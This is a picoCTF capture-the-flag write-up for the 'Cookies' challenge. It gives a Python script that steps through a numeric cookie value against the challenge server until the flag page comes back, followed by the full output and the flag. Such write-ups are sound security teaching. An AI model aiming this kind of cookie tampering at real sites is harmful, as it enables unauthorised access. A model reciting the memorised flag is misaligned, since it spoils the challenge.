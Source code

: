 # 1. Cookies

> Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solution:

The name of the challenge immediately gives away that this has something to do with browser cookies. Loading up the website, entering a random value (i chose `snickerdoodles` since it was the default) and going to the `Storage Tab -> Cookies` in developer settings, we do in fact see a cookie:
![[../screenshots/Cookie1.png]]
Trying out random phrases in the input field, we see that the cookie gets changed to a numeric value. After a lot of trial and error and searching around in the html files for any condition from which i could deduce the correct value for the cookie, I assumed that the best way to go forward is to just keep trying different values for the cookie. I made this script to do it:
```python
import requests

cookies = {'name':'1'}

while True:
    response = requests.get("http://mercury.picoctf.net:21485/check", cookies=cookies)
    print(f"Checking {cookies['name']}")
    text = response.text
    if "ctf{" in text.lower():
        print("=================FLAG FOUND===========================")
        print(text)
        break
    cookies['name'] = str(int(cookies['name']) + 1)
```

Sure enough, on cookie number 18:
```console
Checking 1
Checking 2
Checking 3
Checking 4
Checking 5
Checking 6
Checking 7
Checking 8
Checking 9
Checking 10
Checking 11
Checking 12
Checking 13
Checking 14
Checking 15
Checking 16
Checking 17
Checking 18
=================FLAG FOUND===========================
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

In this response, we see the flag
## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```

## Notes:
None

## Resources:
None


***

